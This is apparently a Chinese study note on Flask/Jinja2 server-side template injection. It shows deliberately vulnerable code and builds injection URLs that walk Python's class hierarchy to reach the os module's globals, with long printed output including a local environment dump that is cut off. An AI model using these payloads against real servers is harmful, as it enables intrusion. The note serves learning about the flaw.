

# SSTI 模板注入

> https://www.cnblogs.com/bmjoker/p/13508538.html | https://blog.csdn.net/weixin_54515836/article/details/113778233 | https://blog.csdn.net/m0_73185293/article/details/131695528
> 

## SSTI  漏洞成因

`SSTI`服务端模板注入，主要为一些`Python`的框架 jinja2 mako tornado django，以及`PHP`框架smarty twig ，`Java`框架 jade velocity等等使用了渲染函数时，由于代码不规范或信任了用户输入而导致了服务端模板注入

模板渲染其实并没有漏洞，主要是程序员对代码不规范不严谨造成了模板注入漏洞，造成模板可控

## 模板引擎

**后端渲染**：浏览器会直接接收到经过服务器计算之后的呈现给用户的最终的HTML字符串，计算就是服务器后端经过解析服务器端的模板来完成的，后端渲染的好处是对前端浏览器的压力较小，主要任务在服务器端就已经完成。

**前端渲染**：前端渲染相反，是浏览器从服务器得到信息，可能是json等数据包封装的数据，也可能是html代码，他都是由浏览器前端来解析渲染成html的人们可视化的代码而呈现在用户面前，好处是对于服务器后端压力较小，主要渲染在用户的客户端完成。

## flask SSTI

`Flask`是一个使用`Python`编写的轻量级web应用框架，其WSGI工具箱采用Werkzeug，模板引擎则使用`Jinja2`

### 模板渲染

`flask`通过使用 `render_template()` 方法来渲染模板

```python
// 存在漏洞的代码
@app.route('/test',methods=['GET','POST'])
def test():
    ****templates = f'''
        <div class="center-content error">
            <h1>Oops! That page doesn't exist.</h1>
            <h3>%s</h3>
        </div> 
    ''' % request.url
    return render_template_string(templates)
```

### 如何编写POC

使用python类来构造

```python
print("".__class__)
<class 'str'>
print("".__class__.__bases__)
(<class 'object'>,)
print("".__class__.__mro__)
(<class 'str'>, <class 'object'>)
print("".__class__.__bases__[0].__subclasses__())
[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, <class 'classmethod'>, <class 'code'>, <class 'complex'>, <class '_contextvars.Token'>, <class '_contextvars.ContextVar'>, <class '_contextvars.Context'>, <class 'coroutine'>, <class 'dict_items'>, <class 'dict_itemiterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_keys'>, <class 'mappingproxy'>, <class 'dict_reverseitemiterator'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_values'>, <class 'dict'>, <class 'ellipsis'>, <class 'enumerate'>, <class 'filter'>, <class 'float'>, <class 'frame'>, <class 'frozenset'>, <class 'function'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'PyHKEY'>, <class 'instancemethod'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'list'>, <class 'longrange_iterator'>, <class 'int'>, <class 'map'>, <class 'member_descriptor'>, <class 'memoryview'>, <class 'method_descriptor'>, <class 'method'>, <class 'moduledef'>, <class 'module'>, <class 'odict_iterator'>, <class 'pickle.PickleBuffer'>, <class 'property'>, <class 'range_iterator'>, <class 'range'>, <class 'reversed'>, <class 'symtable entry'>, <class 'iterator'>, <class 'set_iterator'>, <class 'set'>, <class 'slice'>, <class 'staticmethod'>, <class 'stderrprinter'>, <class 'super'>, <class 'traceback'>, <class 'tuple_iterator'>, <class 'tuple'>, <class 'str_iterator'>, <class 'str'>, <class 'wrapper_descriptor'>, <class 'zip'>, <class 'types.GenericAlias'>, <class 'anext_awaitable'>, <class 'async_generator_asend'>, <class 'async_generator_athrow'>, <class 'async_generator_wrapped_value'>, <class 'Token.MISSING'>, <class 'coroutine_wrapper'>, <class 'generic_alias_iterator'>, <class 'items'>, <class 'keys'>, <class 'values'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'hamt'>, <class 'InterpreterID'>, <class 'managedbuffer'>, <class 'memory_iterator'>, <class 'method-wrapper'>, <class 'types.SimpleNamespace'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'str_ascii_iterator'>, <class 'types.UnionType'>, <class 'weakref.CallableProxyType'>, <class 'weakref.ProxyType'>, <class 'weakref.ReferenceType'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>, <class '_io.IncrementalNewlineDecoder'>, <class '_io._BytesIOBuffer'>, <class 'nt.ScandirIterator'>, <class 'nt.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external.NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_multibytecodec.MultibyteCodec'>, <class '_multibytecodec.MultibyteIncrementalEncoder'>, <class '_multibytecodec.MultibyteIncrementalDecoder'>, <class '_multibytecodec.MultibyteStreamReader'>, <class '_multibytecodec.MultibyteStreamWriter'>, <class '_abc._abc_data'>, <class 'abc.ABC'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'collections.abc.Iterable'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class '_winapi.Overlapped'>, <class 'os._wrap_close'>, <class 'os._AddedDllDirectory'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class '_distutils_hack._TrivialRe'>, <class '_distutils_hack.DistutilsMetaFinder'>, <class '_distutils_hack.shim'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.pairwise'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'operator.attrgetter'>, <class 'operator.itemgetter'>, <class 'operator.methodcaller'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class '_collections._tuplegetter'>, <class 'collections._Link'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.KeyWrapper'>, <class 'functools._lru_list_elem'>, <class 'functools.partialmethod'>, <class 'functools.singledispatchmethod'>, <class 'functools.cached_property'>, <class 'contextlib.ContextDecorator'>, <class 'contextlib.AsyncContextDecorator'>, <class 'contextlib._GeneratorContextManagerBase'>, <class 'contextlib._BaseExitStack'>, <class 'enum.nonmember'>, <class 'enum.member'>, <class 'enum._auto_null'>, <class 'enum.auto'>, <class 'enum._proto_member'>, <enum 'Enum'>, <class 'enum.verify'>, <class 're.Pattern'>, <class 're.Match'>, <class '_sre.SRE_Scanner'>, <class 're._parser.State'>, <class 're._parser.SubPattern'>, <class 're._parser.Tokenizer'>, <class 're.Scanner'>, <class 'tokenize.Untokenizer'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'threading._RLock'>, <class 'threading.Condition'>, <class 'threading.Semaphore'>, <class 'threading.Event'>, <class 'threading.Barrier'>, <class 'threading.Thread'>, <class '_queue.SimpleQueue'>, <class 'queue.Queue'>, <class 'queue._PySimpleQueue'>, <class 'textwrap.TextWrapper'>, <class 'traceback._Sentinel'>, <class 'traceback.FrameSummary'>, <class 'traceback._ExceptionPrintContext'>, <class 'traceback.TracebackException'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class 'string.Template'>, <class 'string.Formatter'>, <class 'platform._Processor'>, <class '_tkinter.tkapp'>, <class '_tkinter.tktimertoken'>, <class '_tkinter.Tcl_Obj'>, <class 'tkinter.Event'>, <class 'tkinter.Variable'>, <class 'tkinter.Misc'>, <class 'tkinter.CallWrapper'>, <class 'tkinter.XView'>, <class 'tkinter.YView'>, <class 'tkinter.Wm'>, <class 'tkinter.Pack'>, <class 'tkinter.Place'>, <class 'tkinter.Grid'>, <class 'tkinter._setit'>, <class 'tkinter.Image'>, <class 'tkinter.ttk.Style'>, <class 'idlelib.multicall._SimpleBinder'>, <class 'idlelib.multicall._ComplexBinder'>, <class 'idlelib.autocomplete_w.AutoCompleteWindow'>, <class 'configparser.Interpolation'>, <class 'tkinter.font.Font'>, <class 'idlelib.config.IdleConf'>, <class 'idlelib.pyparse.Parser'>, <class 'idlelib.hyperparser.HyperParser'>, <class 'idlelib.autocomplete.AutoComplete'>, <class 'ast.AST'>, <class 'ast.NodeVisitor'>, <class 'dis._Unknown'>, <class 'dis.Bytecode'>, <class 'inspect.BlockFinder'>, <class 'inspect._void'>, <class 'inspect._empty'>, <class 'inspect.Parameter'>, <class 'inspect.BoundArguments'>, <class 'inspect.Signature'>, <class 'idlelib.tooltip.TooltipBase'>, <class 'idlelib.calltip.Calltip'>, <class 'bdb.Bdb'>, <class 'bdb.Breakpoint'>, <class 'datetime.date'>, <class 'datetime.time'>, <class 'datetime.timedelta'>, <class 'datetime.tzinfo'>, <class '_struct.Struct'>, <class '_struct.unpack_iterator'>, <class 'pyexpat.xmlparser'>, <class 'plistlib.UID'>, <class 'plistlib._PlistParser'>, <class 'plistlib._DumbXMLWriter'>, <class 'plistlib._BinaryPlistParser'>, <class 'plistlib._BinaryPlistWriter'>, <class 'idlelib.scrolledlist.ScrolledList'>, <class 'idlelib.window.WindowList'>, <class 'idlelib.debugger.Debugger'>, <class 'idlelib.debugger.NamespaceViewer'>, <class 'idlelib.debugger_r.GUIProxy'>, <class 'idlelib.debugger_r.IdbAdapter'>, <class 'idlelib.debugger_r.FrameProxy'>, <class 'idlelib.debugger_r.CodeProxy'>, <class 'idlelib.debugger_r.DictProxy'>, <class 'idlelib.debugger_r.GUIAdapter'>, <class 'idlelib.debugger_r.IdbProxy'>, <class '_pickle.Pdata'>, <class '_pickle.PicklerMemoProxy'>, <class '_pickle.UnpicklerMemoProxy'>, <class '_pickle.Pickler'>, <class '_pickle.Unpickler'>, <class 'pickle._Framer'>, <class 'pickle._Unframer'>, <class 'pickle._Pickler'>, <class 'pickle._Unpickler'>, <class 'selectors.BaseSelector'>, <class '_socket.socket'>, <class 'socketserver.BaseServer'>, <class 'socketserver._NoThreads'>, <class 'socketserver.ThreadingMixIn'>, <class 'socketserver.BaseRequestHandler'>, <class 'idlelib.rpc.SocketIO'>, <class 'idlelib.rpc.RemoteObject'>, <class 'idlelib.rpc.RemoteProxy'>, <class 'idlelib.rpc.RPCProxy'>, <class 'idlelib.rpc.MethodProxy'>, <class 'idlelib.debugobj_r.WrappedObjectTreeItem'>, <class 'idlelib.debugobj_r.StubObjectTreeItem'>, <class 'shlex.shlex'>, <class 'zlib.Compress'>, <class 'zlib.Decompress'>, <class '_bz2.BZ2Compressor'>, <class '_bz2.BZ2Decompressor'>, <class '_lzma.LZMACompressor'>, <class '_lzma.LZMADecompressor'>, <class '_random.Random'>, <class '_sha512.sha384'>, <class '_sha512.sha512'>, <class 'weakref.finalize._Info'>, <class 'weakref.finalize'>, <class 'tempfile._RandomNameSequence'>, <class 'tempfile._TemporaryFileCloser'>, <class 'tempfile._TemporaryFileWrapper'>, <class 'tempfile.TemporaryDirectory'>, <class 'tkinter.commondialog.Dialog'>, <class 'tkinter.simpledialog.SimpleDialog'>, <class 'tkinter.filedialog.FileDialog'>, <class 'idlelib.iomenu.IOBinding'>, <class 'idlelib.zoomheight.ZoomHeight'>, <class 'idlelib.tree.TreeNode'>, <class 'idlelib.tree.TreeItem'>, <class 'idlelib.tree.ScrolledCanvas'>, <class 'idlelib.run.Executive'>, <class '__future__._Feature'>, <class 'importlib._abc.Loader'>, <class 'typing._Final'>, <class 'typing._Immutable'>, <class 'typing._NotIterable'>, typing.Any, <class 'typing._PickleUsingNameMixin'>, <class 'typing._BoundVarianceMixin'>, <class 'typing.Generic'>, <class 'typing._TypingEllipsis'>, <class 'typing.Annotated'>, <class 'typing.NamedTuple'>, <class 'typing.TypedDict'>, <class 'typing.NewType'>, <class 'typing.io'>, <class 'typing.re'>, <class 'pkgutil.ImpImporter'>, <class 'pkgutil.ImpLoader'>, <class 'ipaddress._IPAddressBase'>, <class 'ipaddress._BaseConstants'>, <class 'ipaddress._BaseV4'>, <class 'ipaddress._IPv4Constants'>, <class 'ipaddress._BaseV6'>, <class 'ipaddress._IPv6Constants'>, <class 'urllib.parse._ResultMixinStr'>, <class 'urllib.parse._ResultMixinBytes'>, <class 'urllib.parse._NetlocResultMixinBase'>, <class 'pydoc.Doc'>, <class 'pydoc.Helper'>, <class 'pydoc.ModuleScanner'>]
print("".__class__.__bases__[0])
<class 'object'>
```

使用上面有问题的代码来构造

```python
http://127.0.0.1:5000/test?{{"".__class__}}
```



```python
http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[147]}}
```


是`os`类！！我们有救了！！

接着使用`init`初始化类，然后`globals`全局来查找所有的方法及变量及参数

```python
// http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[148].__init__.__globals__}}
http://127.0.0.1:5000/test?{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n - all functions from posix or nt, e.g. unlink, stat, etc.\n - os.path is either posixpath or ntpath\n - os.name is either 'posix' or 'nt'\n - os.curdir is a string representing the current directory (always '.')\n - os.pardir is a string representing the parent directory (always '..')\n - os.sep is the (or a most common) pathname separator ('/' or '\\\\')\n - os.extsep is the extension separator (always '.')\n - os.altsep is the alternate pathname separator (None or '/')\n - os.pathsep is the component separator used in $PATH etc\n - os.linesep is the line separator in text files ('\\r' or '\\n' or '\\r\\n')\n - os.defpath is the default search path for executables\n - os.devnull is the file path of the null device ('/dev/null', etc.)\n\nPrograms that import and use 'os' stand a better chance of being\nportable between different platforms. Of course, they must then\nonly use functions that are defined by all platforms (e.g., unlink\nand opendir), and leave all pathname manipulation to os.path\n(e.g., split and join).\n", '__package__': '', '__loader__': <class '_frozen_importlib.FrozenImporter'>, '__spec__': ModuleSpec(name='os', loader=<class '_frozen_importlib.FrozenImporter'>, origin='frozen'), '__file__': 'C:\\Users\\sunset\\AppData\\Local\\Programs\\Python\\Python311\\Lib\\os.py', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, types, exceptions, and other objects.\n\nThis module provides direct access to all 'built-in'\nidentifiers of Python; for example, builtins.len is\nthe full name for the built-in function len().\n\nThis module is not normally accessed explicitly by most\napplications, but can be useful in modules that provide\nobjects with the same name as a built-in value, but in\nwhich the built-in of that name is also needed.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>, origin='built-in'), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'aiter': <built-in function aiter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'anext': <built-in function anext>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'BaseExceptionGroup': <class 'BaseExceptionGroup'>, 'Exception': <class 'Exception'>, 'GeneratorExit': <class 'GeneratorExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'SystemExit': <class 'SystemExit'>, 'ArithmeticError': <class 'ArithmeticError'>, 'AssertionError': <class 'AssertionError'>, 'AttributeError': <class 'AttributeError'>, 'BufferError': <class 'BufferError'>, 'EOFError': <class 'EOFError'>, 'ImportError': <class 'ImportError'>, 'LookupError': <class 'LookupError'>, 'MemoryError': <class 'MemoryError'>, 'NameError': <class 'NameError'>, 'OSError': <class 'OSError'>, 'ReferenceError': <class 'ReferenceError'>, 'RuntimeError': <class 'RuntimeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'SyntaxError': <class 'SyntaxError'>, 'SystemError': <class 'SystemError'>, 'TypeError': <class 'TypeError'>, 'ValueError': <class 'ValueError'>, 'Warning': <class 'Warning'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'BytesWarning': <class 'BytesWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'EncodingWarning': <class 'EncodingWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'UserWarning': <class 'UserWarning'>, 'BlockingIOError': <class 'BlockingIOError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionError': <class 'ConnectionError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'InterruptedError': <class 'InterruptedError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'IndentationError': <class 'IndentationError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'RecursionError': <class 'RecursionError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'UnicodeError': <class 'UnicodeError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'TabError': <class 'TabError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'ExceptionGroup': <class 'ExceptionGroup'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'WindowsError': <class 'OSError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-Z plus Return to exit, 'exit': Use exit() or Ctrl-Z plus Return to exit, 'copyright': Copyright (c) 2001-2023 Python Software Foundation. All Rights Reserved. Copyright (c) 2000 BeOpen.com. All Rights Reserved. Copyright (c) 1995-2001 Corporation for National Research Initiatives. All Rights Reserved. Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam. All Rights Reserved., 'credits': Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands for supporting Python development. See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'abc': <module 'abc' (frozen)>, 'sys': <module 'sys' (built-in)>, 'st': <module 'stat' (frozen)>, '_check_methods': <function _check_methods at 0x000001E31BE57C40>, 'GenericAlias': <class 'types.GenericAlias'>, '__all__': ['altsep', 'curdir', 'pardir', 'sep', 'pathsep', 'linesep', 'defpath', 'name', 'path', 'devnull', 'SEEK_SET', 'SEEK_CUR', 'SEEK_END', 'fsencode', 'fsdecode', 'get_exec_path', 'fdopen', 'extsep', '_exit', 'DirEntry', 'EX_OK', 'F_OK', 'O_APPEND', 'O_BINARY', 'O_CREAT', 'O_EXCL', 'O_NOINHERIT', 'O_RANDOM', 'O_RDONLY', 'O_RDWR', 'O_SEQUENTIAL', 'O_SHORT_LIVED', 'O_TEMPORARY', 'O_TEXT', 'O_TRUNC', 'O_WRONLY', 'P_DETACH', 'P_NOWAIT', 'P_NOWAITO', 'P_OVERLAY', 'P_WAIT', 'R_OK', 'TMP_MAX', 'W_OK', 'X_OK', 'abort', 'access', 'chdir', 'chmod', 'close', 'closerange', 'cpu_count', 'device_encoding', 'dup', 'dup2', 'environ', 'error', 'execv', 'execve', 'fspath', 'fstat', 'fsync', 'ftruncate', 'get_handle_inheritable', 'get_inheritable', 'get_terminal_size', 'getcwd', 'getcwdb', 'getlogin', 'getpid', 'getppid', 'isatty', 'kill', 'link', 'listdir', 'lseek', 'lstat', 'mkdir', 'open', 'pipe', 'putenv', 'read', 'readlink', 'remove', 'rename', 'replace', 'rmdir', 'scandir', 'set_handle_inheritable', 'set_inheritable', 'spawnv', 'spawnve', 'startfile', 'stat', 'stat_result', 'statvfs_result', 'strerror', 'symlink', 'system', 'terminal_size', 'times', 'times_result', 'truncate', 'umask', 'uname_result', 'unlink', 'unsetenv', 'urandom', 'utime', 'waitpid', 'waitstatus_to_exitcode', 'write', 'makedirs', 'removedirs', 'renames', 'walk', 'execl', 'execle', 'execlp', 'execlpe', 'execvp', 'execvpe', 'getenv', 'supports_bytes_environ', 'spawnl', 'spawnle', 'popen'], '_exists': <function _exists at 0x000001E31BE57380>, '_get_exports_list': <function _get_exports_list at 0x000001E31BE56DE0>, 'name': 'nt', 'linesep': '\r\n', 'stat': <built-in function stat>, 'access': <built-in function access>, 'chdir': <built-in function chdir>, 'chmod': <built-in function chmod>, 'getcwd': <built-in function getcwd>, 'getcwdb': <built-in function getcwdb>, 'link': <built-in function link>, 'listdir': <built-in function listdir>, 'lstat': <built-in function lstat>, 'mkdir': <built-in function mkdir>, 'readlink': <built-in function readlink>, 'rename': <built-in function rename>, 'replace': <built-in function replace>, 'rmdir': <built-in function rmdir>, 'symlink': <built-in function symlink>, 'system': <built-in function system>, 'umask': <built-in function umask>, 'unlink': <built-in function unlink>, 'remove': <built-in function remove>, 'utime': <built-in function utime>, 'times': <built-in function times>, 'execv': <built-in function execv>, 'execve': <built-in function execve>, 'spawnv': <built-in function spawnv>, 'spawnve': <built-in function spawnve>, 'getpid': <built-in function getpid>, 'getppid': <built-in function getppid>, 'getlogin': <built-in function getlogin>, 'kill': <built-in function kill>, 'startfile': <built-in function startfile>, 'waitpid': <built-in function waitpid>, 'open': <built-in function open>, 'close': <built-in function close>, 'closerange': <built-in function closerange>, 'device_encoding': <built-in function device_encoding>, 'dup': <built-in function dup>, 'dup2': <built-in function dup2>, 'lseek': <built-in function lseek>, 'read': <built-in function read>, 'write': <built-in function write>, 'fstat': <built-in function fstat>, 'isatty': <built-in function isatty>, 'pipe': <built-in function pipe>, 'ftruncate': <built-in function ftruncate>, 'truncate': <built-in function truncate>, 'putenv': <built-in function putenv>, 'unsetenv': <built-in function unsetenv>, 'strerror': <built-in function strerror>, 'fsync': <built-in function fsync>, 'abort': <built-in function abort>, 'urandom': <built-in function urandom>, 'get_terminal_size': <built-in function get_terminal_size>, 'cpu_count': <built-in function cpu_count>, 'get_inheritable': <built-in function get_inheritable>, 'set_inheritable': <built-in function set_inheritable>, 'get_handle_inheritable': <built-in function get_handle_inheritable>, 'set_handle_inheritable': <built-in function set_handle_inheritable>, 'scandir': <built-in function scandir>, 'fspath': <built-in function fspath>, 'waitstatus_to_exitcode': <built-in function waitstatus_to_exitcode>, 'environ': environ({'ALLUSERSPROFILE': 'C:\\ProgramData', 'APPDATA': 'C:\\Users\\sunset\\AppData\\Roaming', 'AQUA_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\aqua.vmoptions', 'CLION_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\clion.vmoptions', 'COMMONPROGRAMFILES': 'C:\\Program Files\\Common Files', 'COMMONPROGRAMFILES(X86)': 'C:\\Program Files (x86)\\Common Files', 'COMMONPROGRAMW6432': 'C:\\Program Files\\Common Files', 'COMPUTERNAME': 'DESKTOP-OO4DPSM', 'COMSPEC': 'C:\\Windows\\system32\\cmd.exe', 'DATAGRIP_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\datagrip.vmoptions', 'DATASPELL_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\dataspell.vmoptions', 'DEVECOSTUDIO_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\devecostudio.vmoptions', 'DRIVERDATA': 'C:\\Windows\\System32\\Drivers\\DriverData', 'EFC_23864': '1', 'FLASK_APP': 'app.py', 'FLASK_DEBUG': '0', 'FLASK_ENV': 'development', 'FPS_BROWSER_APP_PROFILE_STRING': 'Internet Explorer', 'FPS_BROWSER_USER_PROFILE_STRING': 'Default', 'GATEWAY_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\gateway.vmoptions', 'GOLAND_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\goland.vmoptions', 'HOMEDRIVE': 'C:', 'HOMEPATH': '\\Users\\sunset', 'IDEA_INITIAL_DIRECTORY': 'C:\\Program Files\\JetBrains\\PyCharm 2024.1.6\\bin', 'IDEA_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\idea.vmoptions', 'JETBRAINSCLIENT_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\jetbrainsclient.vmoptions', 'JETBRAINS_CLIENT_VM_OPTIONS': 'D:\\System\\Downloads\\jetbra\\vmoptions\\jetbrains_client.vmoptions', 'LOCALAPPDATA': 'C:\\Users\\sunset\\AppData\\Local', 'LOGONSERVER': '\\\\DESKTOP-OO4DPSM', 'MINGW': 'C:\\Program Files\\mingw64', 'NUMBER_OF_PROCESSORS': '24', 'ONEDRIVE': 'C:\\Users\\sunset\\OneDrive', 'OS': 'Windows_NT', 'PATH': 'D:\\System\\Downloads\\SSTI\\SSTI Study\\.venv\\Scripts;C:\\Program Files\\Common Files\\Oracle\\Java\\javapath;C:\\Program Files (x86)\\VMware\\VMware Workstation\\bin\\;C:\\Windows\\system32;C:\\Windows;C:\\Windows\\System32\\Wbem;C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\;C:\\Windows\\System32\\OpenSSH\\;C:\\Program Files\\Bandizip\\;C:\\Program Files (x86)\\NVIDIA Corporation\\PhysX\\Common;C:\\Program Files\\NVIDIA Corporation\\NVIDIA NvDLISR;C:\\Program Files\\mingw64\\bin;C:\\phpstudy_pro\\Extensions\\php\\php8.0.2nts;C:\\phpstudy_pro\\Extensions\\php\\php7.3.4nts;C:\\Program Files\\010 Editor;C:\\Program 